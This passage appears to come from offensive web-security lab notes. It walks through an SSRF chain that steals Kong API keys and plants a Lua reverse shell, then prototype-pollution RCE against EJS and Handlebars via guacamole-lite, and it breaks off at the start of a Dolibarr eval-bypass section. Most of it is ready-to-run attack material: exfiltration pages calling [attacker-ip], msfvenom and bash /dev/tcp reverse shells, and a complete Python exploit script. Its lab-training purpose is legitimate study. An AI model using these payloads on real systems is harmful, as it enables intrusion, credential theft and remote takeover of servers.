<!-- exfil.html - exfiltrate internal API data -->
<html>
<head>
<script>
function exfiltrate() {
fetch("http://172.16.16.2:8001")
.then((response) => response.text())
.then((data) => {
fetch("http://[attacker-ip]/callback?" + encodeURIComponent(data));
}).catch(err => {
fetch("http://[attacker-ip]/error?" + encodeURIComponent(err));
});
}
</script>
</head>
<body onload='exfiltrate()'>
<div></div>
</body>
</html># Trigger exfiltration
curl -X POST -H "Content-Type: application/json" \
-d '{"url":"http://172.16.16.5:9000/api/render?url=http://[attacker-ip]/exfil.html"}' \
http://[target-ip]:8000/files/import11.7.3 Stealing the Kong API Key
The Kong Admin API exposes a /key-auths endpoint that returns all configured API keys. We modify our exfiltration payload to call this endpoint and retrieve the key needed to authenticate directly against the /render service.
<!-- steal_key.html - steal API keys from Kong Admin API -->
<html>
<head>
<script>
function exfiltrate() {
fetch("http://172.16.16.2:8001/key-auths")
.then((response) => response.text())
.then((data) => {
fetch("http://[attacker-ip]/callback?" + encodeURIComponent(data));
}).catch(err => {
fetch("http://[attacker-ip]/error?" + encodeURIComponent(err));
});
}
</script>
</head>
<body onload='exfiltrate()'>
<div></div>
</body>
</html>// Decoded callback data - the API key
{
"next": null,
"data": [{
"created_at": 1613767827,
"id": "c34c38b6-4589-4a1e-a8f7-d2277f9fe405",
"tags": null,
"ttl": null,
"key": "SBzrCb94o9JOWALBvDAZLnHo3s90smjC",
"consumer": {"id": "a8c78b54-1d08-43f8-acd2-fb2c7be9e893"}
}]
}Methodology
-
# Create test page cat > /var/www/html/test.html << 'EOF' <html><body onload='fetch("http://[attacker-ip]/jsworks")'></body></html> EOF # Trigger via SSRF chain curl -X POST -H "Content-Type: application/json" \ -d '{"url":"http://[render-ip]:9000/api/render?url=http://[attacker-ip]/test.html"}' \ http://[target-ip]:8000/files/import -
# Verify stolen key works curl -i "http://[target-ip]:8000/render?url=http://example.com&apikey=[stolen-key]"
11.8 Render Service Source Code Analysis
The Render service is based on the open-source url-to-pdf-api project. It uses Puppeteer to drive Headless Chrome. Input validation in /src/util/validation.js restricts the url parameter to HTTP/HTTPS schemes via a Joi schema - blocking file:// protocol access.

// /src/util/validation.js - URL scheme restriction
const urlSchema = Joi.string().uri({
scheme: ['http', 'https'],
});# Verify file:// is blocked
curl "http://[target-ip]:8000/render?url=file:///etc/passwd&apikey=SBzrCb94o9JOWALBvDAZLnHo3s90smjC"
# 400 Bad Request - "url" must be a valid uri with scheme matching http|httpsThe core render function in /src/core/render-core.js uses page.goto(opts.url) to navigate the browser to the submitted URL, then captures the result as a PDF or HTML. Since we can execute arbitrary JavaScript via page content, the scheme restriction does not prevent exploitation.
Methodology
-
grep -rn "scheme\|protocol\|uri\|Joi" --include="*.js" /path/to/render-service/src/
11.9 Remote Code Execution
Kong API Gateway supports a Serverless Functions plugin (pre-function) that executes arbitrary Lua code on every request to a service. This plugin is loaded in the target environment. We use JavaScript running in Headless Chrome to create a new Kong service, add a route, and attach a Lua reverse shell as a pre-function plugin - all via the internal Admin API.
11.9.1 Generating the Lua Payload
# Generate a Lua reverse shell with msfvenom
msfvenom -p cmd/unix/reverse_lua lhost=[attacker-ip] lport=[listener-port] -f raw -o shell.lua
# Output (remove "lua -e" prefix for plugin use):
# local s=require('socket');local t=assert(s.tcp());
# t:connect('[attacker-ip]',[listener-port]);while true do
# local r,x=t:receive();local f=assert(io.popen(r,'r'));
# local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();11.9.2 JavaScript RCE Payload
<!-- rce.html - create Kong service + route + pre-function reverse shell -->
<html>
<head>
<script>
function createService() {
fetch("http://172.16.16.2:8001/services", {
method: "post",
headers: { "Content-Type": "application/json" },
body: JSON.stringify({
"name": "supersecret",
"url": "http://127.0.0.1/"
})
}).then(function (route) {
createRoute();
});
}
function createRoute() {
fetch("http://172.16.16.2:8001/services/supersecret/routes", {
method: "post",
headers: { "Content-Type": "application/json" },
body: JSON.stringify({"paths": ["/supersecret"]})
}).then(function (plugin) {
createPlugin();
});
}
function createPlugin() {
fetch("http://172.16.16.2:8001/services/supersecret/plugins", {
method: "post",
headers: { "Content-Type": "application/json" },
body: JSON.stringify({
"name": "pre-function",
"config": {
"access": [
"local s=require('socket');local t=assert(s.tcp());t:connect('[attacker-ip]',[listener-port]);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
]
}
})
}).then(function (callback) {
fetch("http://[attacker-ip]/callback?setupComplete");
});
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>11.9.3 Delivering and Triggering the Exploit
# 1. Start a netcat listener
nc -nvlp [listener-port]
# 2. Deliver the RCE payload via SSRF chain
curl -X POST -H "Content-Type: application/json" \
-d '{"url":"http://172.16.16.5:9000/api/render?url=http://[attacker-ip]/rce.html"}' \
http://[target-ip]:8000/files/import
# 3. Verify setup completed in Apache log
sudo tail /var/log/apache2/access.log
# "GET /callback?setupComplete HTTP/1.1" 404 ...
# 4. Trigger the reverse shell by hitting the new route
curl -i http://[target-ip]:8000/supersecret# Reverse shell received!
nc -nvlp [listener-port]
# connect to [attacker-ip] from (UNKNOWN) [target-internal-ip] 41764
whoami
# kong
ls -al
# .dockerenv (confirms container environment)11.9.4 Complete Attack Chain Summary
| Step | Action | Result |
|---|---|---|
| 1 | POST to /files/import with attacker URL | Confirm blind SSRF in Directus |
| 2 | SSRF port/subnet scanning | Map internal network (6 Docker hosts) |
| 3 | SSRF → Render API at 172.16.16.5:9000 | Bypass gateway auth, execute JS via Headless Chrome |
| 4 | JS exfiltration of /key-auths | Steal Kong API key |
| 5 | JS creates Kong service/route/plugin | Install Lua reverse shell as pre-function |
| 6 | Curl to /supersecret | Trigger Lua payload → reverse shell as kong user |
Methodology
-
gobuster dir -u http://[target-ip]:8000 \ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt \ -s "200,204,301,302,307,401,403,405,500" -
./route_buster.py -a /usr/share/wordlists/dirb/small.txt \ -w endpoints.txt -t http://[target-ip]:8000 -
curl -X POST -H "Content-Type: application/json" \ -d '{"url":"http://[attacker-ip]/ssrftest"}' \ http://[target-ip]:8000/files/import -
./ssrf_port_scanner.py -t http://[target-ip]:8000/files/import \ -s http://localhost --timeout 5 -
./ssrf_gateway_scanner.py -t http://[target-ip]:8000/files/import -
curl -X POST -H "Content-Type: application/json" \ -d '{"url":"http://[internal-render]:9000/api/render?url=http://[attacker-ip]/exfil.html"}' \ http://[target-ip]:8000/files/import -
# Generate Lua payload msfvenom -p cmd/unix/reverse_lua lhost=[attacker-ip] lport=[listener-port] -f raw # Trigger after plugin setup curl http://[target-ip]:8000/supersecret
12. Guacamole Lite Prototype Pollution
12.1 Overview
Prototype pollution is a JavaScript vulnerability where an attacker injects properties into Object.prototype, affecting every object in the application. Server-side prototype pollution was popularized by Olivier Arteau at NorthSec 2018. The vulnerability typically appears in libraries that perform recursive object merging or extending.

The target is a custom application called "Chips" that uses guacamole-lite (a Node.js package for browser-based RDP connections) alongside various templating engines. The guacamole-lite package depends on deep-extend@0.4.2, which is vulnerable to prototype pollution when processing untrusted user input. We exploit this to achieve RCE against two different templating engines: EJS and Handlebars.
| Component | Detail |
|---|---|
| Target App | Chips - RDP-via-browser using guacamole-lite |
| Vulnerable Library | deep-extend@0.4.2 (dependency of guacamole-lite@0.6.3) |
| Approach | Whitebox (source review) + Blackbox (crash-based detection) |
| Template Engines | EJS, Handlebars (hbs), Pug - selectable via TEMPLATING_ENGINE env var |
| URL | http://chips/ |
| SSH | [username]:[password] |
Methodology
-
curl -i http://[target-ip]/ # Look for X-Powered-By: Express or similar Node.js indicators -
npm audit # Or search: https://snyk.io/vuln/?type=npm&q=prototype+pollution
-
npm list -prod -depth 3 | grep -i "deep\|extend\|merge\|lodash" -
ls views/ # .ejs = EJS, .hbs = Handlebars, .pug = Pug grep -r "view engine" app.js
12.2 Application Structure
Chips is a Node.js/Express application deployed via Docker Compose with three containers: chips (the web app), guacd (the Guacamole daemon), and rdesktop (the RDP target). The web app runs on port 3000 internally, exposed as port 80. Remote debugging is available on ports 9229 (app) and 9228 (CLI).
12.2.1 Key Endpoints
| Endpoint | Method | Purpose |
|---|---|---|
/tokens | POST | Accepts JSON connection settings, returns encrypted token |
/rdp?token= | GET | Loads the RDP page using the encrypted token |
/guaclite?token= | GET | WebSocket upgrade - guacamole-lite processes the token here |
The /tokens endpoint accepts a JSON body containing connection settings. These settings are encrypted into a token that is later decrypted and merged by guacamole-lite when a WebSocket connection is established at /guaclite.
{
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"client-name": "",
"console": "false",
"initial-program": ""
}
}
}12.2.2 Docker Compose Layout
# docker-compose.yml key sections
services:
chips:
build: .
command: npm run start-dev # node --inspect=0.0.0.0 ./bin/www
environment:
- TEMPLATING_ENGINE # hbs (default), ejs, or pug
volumes:
- .:/usr/src/app
- /var/run/docker.sock:/var/run/docker.sock # container escape vector
ports:
- "80:3000"
- "9229:9229" # remote debugging (app)
- "9228:9228" # remote debugging (CLI)
guacd:
image: linuxserver/guacd
rdesktop:
image: linuxserver/rdesktopThe TEMPLATING_ENGINE environment variable controls which engine is used. Set it before docker-compose up to switch engines.
# Switch to EJS
[username]@[target-hostname]:~/[app-dir]$ docker-compose down
[username]@[target-hostname]:~/[app-dir]$ TEMPLATING_ENGINE=ejs docker-compose up
# Switch to Handlebars
[username]@[target-hostname]:~/[app-dir]$ docker-compose down
[username]@[target-hostname]:~/[app-dir]$ TEMPLATING_ENGINE=hbs docker-compose upMethodology
-
# Check docker-compose.yml for TEMPLATING_ENGINE variable cat docker-compose.yml | grep -i template # Check package.json for installed engines cat package.json | grep -E "ejs|hbs|pug|handlebars" -
curl -s -X POST http://[target-ip]/tokens \ -H "Content-Type: application/json" \ -d '{"connection":{"type":"rdp","settings":{"hostname":"rdesktop","username":"abc","password":"abc","port":"3389","security":"any","ignore-cert":"true"}}}' -
# In Chrome: navigate to chrome://inspect # Add target: [target-ip]:9229 # Click "inspect" to open DevTools -
docker-compose down TEMPLATING_ENGINE=ejs docker-compose up
12.3 JavaScript Prototype Fundamentals
Nearly everything in JavaScript is an object - arrays, browser APIs, and functions. The only exceptions are null, undefined, strings, numbers, booleans, and symbols. Unlike class-based languages, JavaScript uses prototypal inheritance where objects inherit directly from other objects.
12.3.1 Prototype Chain
Every object has a private __proto__ property linking to its prototype. Property lookups walk this chain until reaching Object.prototype (which has null as its prototype). The class keyword in ES2015 is syntactic sugar for constructor functions - both create objects via new.
// Constructor function (pre-ES2015 pattern)
function Student() {
this.id = 2;
this.enrolled = false;
}
Student.prototype.isActive = function() {
console.log("Checking if active");
return this.enrolled;
};
s = new Student();
// Student { id: 2, enrolled: false }
s.isActive();
// Checking if active
// false
typeof s; // 'object'
typeof Student; // 'function'
// __proto__ links to the constructor's prototype
s.__proto__ === Student.prototype; // trueThe prototype property belongs to constructor functions and defines the template for inherited methods. The __proto__ property is the actual link in the prototype chain. When new Student() executes, the engine creates an empty object, sets its __proto__ to Student.prototype, then runs the constructor with this bound to the new object.
12.3.2 Chain Resolution and Override
// The chain resolves the FIRST match found
s.isActive(); // Uses Student.prototype.isActive
// Override at the object level - shadows the prototype
s.isActive = function() {
console.log("New isActive");
return true;
};
s.isActive();
// New isActive
// true
// Prototype version still exists
s.__proto__.isActive();
// Checking if active
// undefined
// Delete override - chain falls back to prototype
delete s.isActive;
s.isActive();
// Checking if active
// false12.3.3 Object.prototype Affects Everything
// Modifying Object.prototype pollutes ALL objects
Object.prototype.toString = function() {
console.log("in Object prototype");
return this.id.toString();
};
// After deleting overrides in the chain:
delete s.toString;
delete Student.prototype.toString;
s.toString();
// in Object prototype
// '2'
// Even blank objects are affected
{}.toString();
// in Object prototype
// TypeError: Cannot read property 'toString' of undefined
// (blank object has no .id - but the polluted function still ran)Changes to Object.prototype persist until the Node.js process restarts. In web applications, once the prototype is polluted it affects all subsequent requests until reboot.
Methodology
-
// Confirm __proto__ is writable let obj = {}; obj.__proto__.testProp = "polluted"; console.log({}.testProp); // "polluted" delete Object.prototype.testProp;
12.4 Vulnerable Merge Functions
Prototype pollution most commonly occurs in recursive merge or extend functions. These iterate over object keys and recursively merge nested objects. When user-controlled input contains __proto__ as a key, the merge walks into the prototype chain and injects properties into Object.prototype.

12.4.1 Vulnerable Pattern
const { isObject } = require("util");
function merge(a, b) {
for (var key in b) {
if (isObject(a[key]) && isObject(b[key])) {
merge(a[key], b[key]);
} else {
a[key] = b[key];
}
}
return a;
}
// Normal merge
x = { hello: "world" };
y = { foo: { bar: "foobar" } };
merge(x, y);
// { hello: 'world', foo: { bar: 'foobar' } }
// Pollution via __proto__
x = { hello: "world" };
y = { ["__proto__"]: { polluted: "yes" } };
merge(x, y);
// { hello: 'world' } - looks normal, but:
{}.polluted;
// 'yes' - ALL objects now have .polluted!Square brackets around __proto__ make the property enumerable in the for...in loop. When the merge function hits __proto__, a["__proto__"] resolves to the prototype link (always an object), so the recursive branch fires and writes nested properties directly into Object.prototype.
12.4.2 Non-Vulnerable Pattern
// This merge is NOT vulnerable - no recursion
function badMerge(a, b) {
for (var key in b) {
a[key] = b[key];
}
return a;
}
// badMerge does not properly merge nested objects
x = { foo: { bar: "foobar" } };
y = { foo: { hello: "world" } };
badMerge(x, y);
// { foo: { hello: 'world' } } - bar is lost, not merged
// Without recursion, __proto__ assignment replaces rather than traverses
// so prototype pollution does not occur
12.4.3 Pollution Side Effects
// Polluted vars are enumerable in for...in loops
for (var key in {}) console.log(key);
// polluted
// Also enumerable in arrays via for...in
for (var i in [1, 2]) console.log(i);
// 0
// 1
// polluted
// BUT not in forEach or length-based loops
[1, 2].forEach(i => console.log(i));
// 1
// 2
for (i = 0; i < [1, 2].length; i++) console.log([1, 2][i]);
// 1
// 2Methodology
-
grep -rn "function merge\|function extend\|function deepExtend\|deep-extend\|lodash.merge\|_.merge" --include="*.js" . -
let target = {}; let source = JSON.parse('{"__proto__":{"polluted":"yes"}}'); merge(target, source); console.log({}.polluted); // "yes" if vulnerable
12.5 Blackbox Discovery
To detect prototype pollution blindly, overwrite a commonly-used function like toString with a string. If the application crashes, prototype pollution is confirmed. The payload must be placed in the correct position within the JSON - specifically inside the object that gets passed to a vulnerable merge function.
12.5.1 Crash-Based Detection
// Step 1: POST to /tokens with pollution in "settings" (the merged object)
{
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"toString": "polluted"
}
}
}
}
// Step 2: Use the returned token to connect via /guaclite?token=...
// Step 3: The app crashes when moment.js calls toString.call()The payload must go inside settings, not connection, because guacamole-lite passes connection.settings to DeepExtend. Placing it at the wrong nesting level has no effect. After the WebSocket connection triggers the merge, the next page load crashes the app.
# Crash stack trace from docker-compose logs
node_modules/moment/moment.js:28
Object.prototype.toString.call(input) === '[object Array]'
^
TypeError: Object.prototype.toString.call is not a function
at isArray (node_modules/moment/moment.js:28:39)
...
at Server.newConnection (node_modules/guacamole-lite/lib/Server.js:149:59)Methodology
-
curl -s -X POST http://[target-ip]/tokens \ -H "Content-Type: application/json" \ -d '{"connection":{"type":"rdp","settings":{"hostname":"rdesktop","username":"abc","password":"abc","port":"3389","security":"any","ignore-cert":"true","__proto__":{"toString":"polluted"}}}}' -
docker-compose restart chips
12.6 Whitebox Discovery
Start by checking the application source for computed property access patterns (a[key] = b[key]). Then audit third-party packages for merge/extend functions. Use npm list and npm audit to identify vulnerable libraries.

12.6.1 Package Enumeration
# List production dependencies (depth 1)
$ npm list -prod -depth 1
app@0.0.0 /usr/src/app
+-- ejs@3.1.6
+-- express@4.16.4
| +-- merge-descriptors@1.0.1 # non-recursive - safe
| +-- utils-merge@1.0.1 # non-recursive - safe
+-- guacamole-lite@0.6.3
| +-- deep-extend@0.4.2 # RECURSIVE EXTEND - vulnerable!
| +-- moment@2.29.1
| +-- ws@1.1.5
+-- hbs@4.1.1
+-- pug@3.0.2
# npm audit confirms the vulnerability
$ npm audit
Low Prototype Pollution
Package deep-extend
Patched in >=0.5.1
Dependency of guacamole-lite
Path guacamole-lite > deep-extend
More info https://npmjs.com/advisories/61212.6.2 deep-extend Source Analysis
// node_modules/deep-extend/lib/deep-extend.js (simplified)
var deepExtend = module.exports = function (/*obj_1, [obj_2], [obj_N]*/) {
var target = arguments[0];
var args = Array.prototype.slice.call(arguments, 1);
args.forEach(function (obj) {
if (typeof obj !== 'object' || obj === null || Array.isArray(obj)) {
return;
}
Object.keys(obj).forEach(function (key) {
src = target[key];
val = obj[key];
if (val === target) {
return;
} else if (typeof val !== 'object' || val === null) {
target[key] = val; // primitive assignment
return;
} else {
target[key] = deepExtend(src, val); // recursive merge!
return;
}
});
});
return target;
};
// No filtering of __proto__ - vulnerable to prototype pollution12.6.3 Vulnerable Call Site in guacamole-lite
// node_modules/guacamole-lite/lib/ClientConnection.js
const DeepExtend = require('deep-extend');
class ClientConnection {
constructor(server, connectionId, webSocket) {
// ...
this.connectionSettings = this.decryptToken();
this.connectionSettings['connection'] = this.mergeConnectionOptions();
}
mergeConnectionOptions() {
let compiledSettings = {};
DeepExtend(
compiledSettings,
this.server.clientOptions.connectionDefaultSettings[this.connectionType],
this.connectionSettings.connection.settings, // USER INPUT
unencryptedConnectionSettings
);
return compiledSettings;
}
}The connection.settings object from the decrypted token is passed directly to DeepExtend. Any __proto__ keys within settings will be recursively merged into Object.prototype.
Methodology
-
npm list -prod -depth 1 npm audit -
grep -rn "a\[key\]\s*=\s*b\[key\]\|target\[key\]\s*=\s*" --include="*.js" node_modules/ -
# For guacamole-lite: token decrypt → mergeConnectionOptions → DeepExtend grep -rn "DeepExtend\|deep-extend\|deepExtend" --include="*.js" node_modules/guacamole-lite/
12.7 EJS Template Engine RCE
EJS is the simplest of the three templating engines (~1120 lines). It compiles templates by generating JavaScript strings that are evaluated. Several options in the EJS Template class are set conditionally, making them injectable via prototype pollution.
12.7.1 EJS Detection (PoC)
EJS reads opts.escape (or opts.escapeFunction) during template compilation. If this value is a string instead of a function, the template crashes with esc is not a function. This confirms the app uses EJS.
// node_modules/ejs/lib/ejs.js - Template class constructor
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
// Normal: escape is a function. Polluted: escape is a string → crash
> {}.__proto__.escape = "haxhaxhax";
> ejs.render("Hello, <%= foo %>", { foo: "world" }, {});
// Uncaught TypeError: esc is not a function// HTTP payload to detect EJS (causes crash on next page load)
{
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"escape": "polluted"
}
}
}
}12.7.2 EJS RCE via outputFunctionName
The EJS Template.compile() function checks for opts.outputFunctionName. Applications rarely set this option. When present, its value is concatenated directly into the generated JavaScript code without sanitization.
// node_modules/ejs/lib/ejs.js line 584-591
compile: function () {
var opts = this.opts;
// ...
if (!this.source) {
this.generateSource();
prepended +=
' var __output = "";\n' +
' function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
// VALUE IS CONCATENATED DIRECTLY INTO JS CODE
prepended += ' var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
}
}The injection must complete the variable declaration on both sides. The payload creates var x = 1; on the left, executes arbitrary code in the middle, and closes with ; y = __append; on the right.
// Interactive CLI demonstration
> ejs = require("ejs");
> ejs.render("Hello, <%= foo %>", { foo: "world" });
// 'Hello, world'
> {}.__proto__.outputFunctionName = "x = 1; console.log('haxhaxhax') ; y";
> ejs.render("Hello, <%= foo %>", { foo: "world" });
// haxhaxhax
// 'Hello, world'// Full RCE payload for HTTP request to /tokens
{
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"outputFunctionName": "x=1;process.mainModule.require('child_process').execSync('whoami').toString();y"
}
}
}
}After sending the payload: (1) POST to /tokens to get the encrypted token, (2) send the token to /guaclite to trigger the merge and pollute the prototype, (3) load any page to trigger EJS template rendering - the injected code executes on every page render.
# Reverse shell payload variant
"outputFunctionName": "x=1;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/[attacker-ip]/9000 0>&1\"');y"
# docker-compose log output confirms RCE
chips_1 | root
chips_1 |
chips_1 | GET / 200 32.799 ms - 4962Methodology
-
# Send pollution payload, trigger merge via WebSocket, then load a page # Crash in docker logs confirms EJS docker-compose logs chips | grep "esc is not a function" -
grep -n "outputFunctionName\|opts\." node_modules/ejs/lib/ejs.js -
docker-compose logs --tail=20 chips -
nc -lvnp 9000 # Payload: "x=1;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/[attacker-ip]/9000 0>&1\"');y"
12.8 Handlebars Template Engine RCE
Handlebars is significantly more complex than EJS (~5142 lines). It defines its own templating language and compiles templates through three phases: parsing (text → AST), opcode generation (AST → opcodes), and JavaScript compilation (opcodes → executable function).


12.8.1 Handlebars Compilation Flow
| Phase | Input | Output | Key File |
|---|---|---|---|
| 1. Parse | Template string | AST (Abstract Syntax Tree) | compiler/base.js → compiler/parser.js |
| 2. Compile | AST | Opcodes array | compiler/compiler.js |
| 3. JS Compile | Opcodes | JavaScript function string | compiler/javascript-compiler.js |
// Parse a template into an AST
> Handlebars = require("handlebars");
> ast = Handlebars.parse("hello {{ foo }}");
{
type: 'Program',
body: [
{ type: 'ContentStatement', value: 'hello ', ... },
{ type: 'MustacheStatement', path: [Object], params: [], escaped: true, ... }
],
strip: {},
loc: { ... }
}
// Critical: if input.type === 'Program', parsing is SKIPPED
// compiler/base.js line 33-37:
function parseWithoutProcessing(input, options) {
if (input.type === 'Program') {
return input; // skip parsing entirely!
}
// ... normal parsing
}12.8.2 Handlebars Detection (PoC)
The appendContent function in javascript-compiler.js prepends this.pendingContent to the current content. Polluting pendingContent injects visible text into the rendered template - confirming Handlebars without crashing the app. However, the content is escaped by quotedString(), so this cannot reach RCE.
// compiler/javascript-compiler.js
appendContent: function appendContent(content) {
if (this.pendingContent) {
content = this.pendingContent + content; // prepend injected content
} else {
this.pendingLocation = this.source.currentLocation;
}
this.pendingContent = content;
},
// CLI demonstration
> {}.__proto__.pendingContent = "haxhaxhax";
> precompiled = Handlebars.precompile(ast);
// return "haxhaxhaxhello " + ...
// Content appears but is escaped - no RCE via this path// HTTP payload to detect Handlebars (injects visible text)
{
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"pendingContent": "HANDLEBARS_DETECTED"
}
}
}
}12.8.3 NumberLiteral Injection (Unescaped Path)
The NumberLiteral compiler function calls pushLiteral, which calls pushStackLiteral, which calls push - none of which escape the value. By injecting a NumberLiteral node with arbitrary JavaScript as its value, the code is inserted directly into the compiled template function.
// compiler/compiler.js - NumberLiteral uses pushLiteral
NumberLiteral: function NumberLiteral(number) {
this.opcode('pushLiteral', number.value);
},
// compiler/javascript-compiler.js - pushLiteral does NOT escape
pushLiteral: function pushLiteral(value) {
this.pushStackLiteral(value); // no quotedString(), no escaping
},
pushStackLiteral: function pushStackLiteral(item) {
this.push(new Literal(item)); // raw value passed through
},
// Compare with pushString which DOES escape:
pushString: function pushString(string) {
this.pushStackLiteral(this.quotedString(string)); // escaped!
},12.8.4 AST Injection via Prototype Pollution
The function parseWithoutProcessing checks input.type === 'Program' to decide whether to skip parsing. Polluting __proto__.type = "Program" causes every string input to be treated as an already-compiled AST. The attack then provides a custom AST via __proto__.body containing a MustacheStatement with a NumberLiteral parameter holding the payload.
// Step-by-step build of the RCE AST in the CLI
> {}.__proto__.type = "Program";
// First attempt - need a body array
> Handlebars.parse("hello {{ foo }}");
// TypeError: Cannot read property 'length' of undefined
> {}.__proto__.body = [];
> Handlebars.precompile("hello {{ foo }}");
// '... return ""; ...' - empty function, no error
// Add MustacheStatement with path and loc
> {}.__proto__.body = [{ type: 'MustacheStatement', path: 0, loc: 0 }];
> Handlebars.precompile("hello {{ foo }}");
// Compiles! But loc:0 needed to avoid syntax errors in output
// Add NumberLiteral param with RCE payload
> {}.__proto__.body = [{
... type: 'MustacheStatement',
... path: 0,
... loc: 0,
... params: [{
... type: 'NumberLiteral',
... value: "console.log('haxhaxhax')"
... }]
... }];
> precompiled = Handlebars.precompile("hello {{ foo }}");
// ... console.log('haxhaxhax') ... appears unescaped in compiled code
> eval("compiled = " + precompiled);
> tem = Handlebars.template(compiled);
> tem();
// haxhaxhax ← code executed!
// Error: Missing helper: "undefined" ← expected, but code already ran12.8.5 Full Handlebars RCE Payload
// HTTP payload for Handlebars RCE via /tokens
{
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"type": "Program",
"body": [
{
"type": "MustacheStatement",
"path": 0,
"loc": 0,
"params": [
{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync('whoami').toString()"
}
]
}
]
}
}
}
}After sending: (1) POST to /tokens, (2) send token to /guaclite to trigger the merge, (3) load any page - the Handlebars compiler uses the polluted AST instead of parsing the template, executing the RCE payload during compilation.
# docker-compose log confirms execution
chips_1 | root
chips_1 |
chips_1 | GET / 500 39.494 ms - 1152
chips_1 | Error: /usr/src/app/views/hbs/error.hbs: Missing helper: "undefined"Methodology
-
grep -n "parseWithoutProcessing\|input.type" node_modules/handlebars/dist/cjs/handlebars/compiler/base.js -
grep -n "pushLiteral\|pushString\|quotedString\|NumberLiteral" node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js -
{}.__proto__.type = "Program"; {}.__proto__.body = [{type:"MustacheStatement",path:0,loc:0,params:[{type:"NumberLiteral",value:"process.mainModule.require('child_process').execSync('id').toString()"}]}]; Handlebars.precompile("test");
12.9 Automated Exploit
The full chain can be scripted: POST the polluted JSON to /tokens, trigger the merge via WebSocket to /guaclite, then hit any page to fire the RCE.

import requests
import json
target = "http://[target-ip]"
# EJS RCE payload
ejs_payload = {
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"outputFunctionName": "x=1;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/[attacker-ip]/9000 0>&1\"');y"
}
}
}
}
# Handlebars RCE payload
hbs_payload = {
"connection": {
"type": "rdp",
"settings": {
"hostname": "rdesktop",
"username": "abc",
"password": "abc",
"port": "3389",
"security": "any",
"ignore-cert": "true",
"__proto__": {
"type": "Program",
"body": [{
"type": "MustacheStatement",
"path": 0,
"loc": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/[attacker-ip]/9000 0>&1\"').toString()"
}]
}]
}
}
}
}
# Step 1: Get token
r = requests.post(f"{target}/tokens",
json=ejs_payload, # or hbs_payload
headers={"Content-Type": "application/json"})
token = r.json().get("token")
print(f"[+] Token: {token}")
# Step 2: Trigger merge via /guaclite (WebSocket handshake)
import websocket
try:
ws = websocket.create_connection(
f"ws://[target-ip]/guaclite?token={token}",
timeout=5)
ws.close()
except:
pass
print("[+] Prototype polluted. Loading page to trigger RCE...")
# Step 3: Trigger template render
requests.get(f"{target}/", timeout=5)12.9.1 Template Engine Detection Summary
| Engine | Detection Method | Polluted Property | Effect |
|---|---|---|---|
| EJS | Crash on next render | escape → string | esc is not a function |
| Handlebars | Visible text injection | pendingContent → string | Text prepended to page output |
| Pug | Visible text / crash | Various | Template output modified |
Methodology
-
npm list -prod -depth 1 npm audit -
{"__proto__": {"toString": "polluted"}} -
{"__proto__": {"outputFunctionName": "x=1;process.mainModule.require('child_process').execSync('CMD').toString();y"}} -
{"__proto__": {"type": "Program", "body": [{"type": "MustacheStatement", "path": 0, "loc": 0, "params": [{"type": "NumberLiteral", "value": "process.mainModule.require('child_process').execSync('CMD').toString()"}]}]}} -
curl http://[target-ip]/ -
nc -nvlp [listener-port]
13. Dolibarr Eval Filter Bypass RCE
13.1 Overview
Dolibarr is an open-source PHP ERP/CRM application that wraps eval() in a custom dol_eval() function with blocklist-based validation. The filter can be bypassed using PHP's dynamic function invocation, reflection, and encoding techniques to reach RCE. The attack requires administrative access.


Methodology
-
cat /usr/share/dolibarr/htdocs/filefunc.inc.php | grep -i version


13.2 Dangerous Functions
Start source code review by searching for dangerous sinks - functions that execute code, run OS commands, or manipulate memory. If user input reaches any of these unsanitized, the result is typically RCE.

| Language | Function | Risk |
|---|---|---|
| C | gets() | Buffer overflow (no length check on input). Replaced by gets_s() in C11. |
| PHP | eval() | Executes arbitrary PHP code from a string |
| PHP | exec(), system(), passthru(), shell_exec() | Executes external OS commands |
| JavaScript | eval() | Evaluates a string as JavaScript code (client-side: XSS; server-side: RCE) |
| Python | eval(), exec() | Executes arbitrary Python code from a string |
13.2.1 JavaScript eval()
JavaScript's eval() evaluates a string as source code and returns the result. In a browser context, passing unsanitized user input to eval() results in client-side eval injection, equivalent to cross-site scripting (XSS). Server-side eval() injection is more severe and typically leads to RCE.
// Browser console - eval arithmetic
eval("3+4");
// Returns: 7
// Browser console - eval function call
eval(console.log("hello eval world"));
// Prints: hello eval world13.2.2 PHP eval()
PHP's eval() language construct executes a string as PHP code. The official documentation explicitly warns against passing user-provided data to it. Combined with exec(), it enables arbitrary OS command execution.
// Interactive PHP shell
php > eval("echo 3+4;");
7
php > eval("echo exec('whoami');");
studentMethodology
-
